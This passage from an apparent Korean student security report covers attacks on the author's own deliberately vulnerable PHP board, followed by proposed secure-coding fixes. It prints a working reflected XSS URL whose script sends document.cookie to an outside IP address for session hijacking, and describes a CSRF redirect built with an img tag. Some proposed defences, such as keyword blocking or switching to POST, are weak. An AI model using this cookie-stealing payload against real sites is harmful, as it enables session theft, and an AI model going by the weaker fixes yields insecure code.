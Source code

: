 PHPSESSID 복사해서 브라우저 쿠키에 삽입 -> 성공 

4. Reflected XSS 
- url에 스크립트를 삽입하여 누르면 세션 하이재킹이 실행되도록 url을 만들었다. 
- https://vulnerable-page- ofyle.run.goorm.io/content.php?num=51&title=hi&description=%3Cscript%3E%20var%20cookieData =document.cookie;%20setTimeout(()%20=%3E%20location.href=`http://44.203.182.159/session.ph p?data=${cookieData}`,%203000);%20%3C/script%3E&id=user01  
5. CSRF 
- 위에  만든  XSS는  브라우저에서  저장된  스크립트를  실행하여  Redirecting하는  페이지이다.  이번에는 CSRF를 이용하여 다른 글을  클릭하더라도 강제로 User 스스로 그 페이지로 이동하도록  할 것이다. 글 을 읽어올 때 기본적으로 GET 메소드를 사용하기 때문에 Url을 통한 위조가 가능하다. 

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.008.jpeg)

- 이와 같이 img 태그에 src를 XSS를 적용한 페이지로 설정해 간접적으로 Redirecting이 되도록 했다. 

![](img/Aspose.Words.8937c5dc-ffaa-4ae4-8e38-164418a9c473.009.jpeg)

- 위의 ‘급함급함’이라는 글을 클릭해도 XSS가 적용된 페이지로 이동하여 세션을 전송하게 된다. 

## 3 취약점 대응 

1. 아이디어 

취약점  분석에  대해  시큐어  코딩으로  이를  해결할  수  있는  방안을  생각해보았다.  취약점  대응  이전의  소스코드 는  https://github.com/gnod-soo/vulnerable\_page 에서 볼 수 있다. 

1. SQL Injection 
- 따옴표가  들어간  Payloads만  성공했으므로,  문자열  그대로  SQL  쿼리문에  전달되기  때문에  발생하는 문제라고 생각한다.  
- 입력값을 검증한다. SQL 명령어나 AND, OR과 같은 연산자가 들어간 글들을 제한함으로써 입력할 때 에 조건을 걸어 SQL 명령어가 있다면 입력 자체가 불가하도록 설정한다. 
- 쿼리의 구조적 보안성을 높인다. SQL Injection이 성공할 수 있었던 이유는 먼저 id와 pw의 쿼리가 합 쳐져  있기  때문이다. Id에  대해  쿼리를  보내고,  받은  쿼리는  패스워드는  백엔드  언어의  조건문을  통해 쿼리의 패스워드와 입력한 패스워드가 일치하는지 검증한다. 
- 인코딩  후  쿼리에  전달한다.  인코딩를  거치고  데이터베이스에  저장하면  쿼리에  잘못된  문자열을  삽입 하여 잘못된 쿼리를 삽입할 수 없을 것이다. 
2. Blind SQL Injection 
- 위와 동일하다. 
3. Stored XSS 
- 문자열  필터링을  거친다.  자바스크립트를  실행하기  위해서는  <>를  사용하는  태그가  필수적이므로  이 태그를 제한하거나 인코딩하면 될 것이다.
- 세션 탈취가 주가 되는 공격이므로 세션 타임아웃을 설정하여 위험성을 줄인다.
4. Reflected XSS 
- Stored XSS의 해결방안들을 진행하고, 추가적으로 url을 이용한 공격이므로 url에 입력값과 파라미터를 표시하지 않는 POST Method를 이용하도록 한다.